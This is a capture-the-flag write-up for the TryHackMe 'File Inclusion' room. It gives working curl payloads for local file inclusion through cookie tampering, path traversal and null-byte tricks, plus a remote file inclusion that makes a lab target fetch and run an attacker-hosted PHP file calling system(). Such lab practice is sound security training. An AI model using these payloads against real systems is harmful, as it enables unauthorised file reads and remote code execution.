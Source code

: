 #+TITLE: File Inclusion (TryHackMe)
#+AUTHOR: Bryan Rinders
#+DATE: <2023-01-28 Sat>
#+OPTIONS:
#+PROPERTY: header-args:sh :eval never-export

* Intro
:PROPERTIES:
:CUSTOM_ID: intro
:END:
{{{date([%Y-%m-%d])}}}

This is a write up for the Challenges part of the TryHackMe room [[https://tryhackme.com/room/fileinc][File
Inclusion]].

* Challenges
:PROPERTIES:
:CUSTOM_ID: challenges
:END:
** Flag 1
:PROPERTIES:
:CUSTOM_ID: flag-1
:END:
On the right hand side of Firefox open the =menu > Web Developer >
Inspector=. In the html source code find the form tag and change the
method from =GET= to =POST=. Then on the actual web page fill =/etc/flag1= in
in the form and press the include button. This should reveal the flag.

** Flag 2
:PROPERTIES:
:CUSTOM_ID: flag-2
:END:
From the hint it is clear that we have to edit the cookie to find the
flag. To inspect the cookie run:

#+begin_src sh
curl -v http://10.10.124.167/challenges/chall2.php
#+end_src

and find the cookie among the header of the output. It has the value
=Cookie: THM=Guest=. The obvious thing is to try and change the value
=Admin=:

#+begin_src sh
  curl -H 'Cookie: THM=Admin' http://10.10.124.167/challenges/chall2.php -o flag2.txt
#+end_src

which reveals the admin page. Since there is not input form on this
page and it is a LFI room the next thing to try is to change the value
of the cookie to the file path to the flag. After a few tries the
correct value was found:

#+begin_src sh
  curl -H 'Cookie: THM=../../../../etc/flag2%00' http://10.10.124.167/challenges/chall2.php -o flag2.txt
#+end_src

Locate the flag at the end of the file =flag2.txt=.

** Flag 3
:PROPERTIES:
:CUSTOM_ID: flag-3
:END:
The url input is filtered, everything that is not a-z is filtered
out. To get around this change the method from get to =GET= to =POST=
and set the data to be posted to =/etc/flag3%00=. The =%00= is
necessary to prevent the =.php= from being added at the end as
explained previously in the room.

#+begin_src sh
  curl -v http://ip/challenges/chall3.php -X  POST -d 'file=/etc/flag3%00' -o flag3.txt
#+end_src

Locate the flag at the end of the file =flag3.txt=.

** Playground
:PROPERTIES:
:CUSTOM_ID: playground
:END:
Since this is a RFI exercise we first need to create a =.php= file
that will execute the command we want, =hostname=.

#+begin_src sh
  echo "<?PHP echo system('hostname') ?>" > rfi.php
#+end_src

Next we need a simple server that will host our file. The simplest way
to do this is with python.

#+begin_src sh
  python -m http.server &
#+end_src

And finally add the file as a parameter in the url to get the hostname:

#+begin_src sh
  curl http://10.10.124.167/playground.php?file=http://10.10.95.70:8000/rfi.php
#+end_src

Note: the IP of the remote file is the IP of the attackbox and for the
port number see the output of the python command. The port number
defaults to 8000 but can be different.
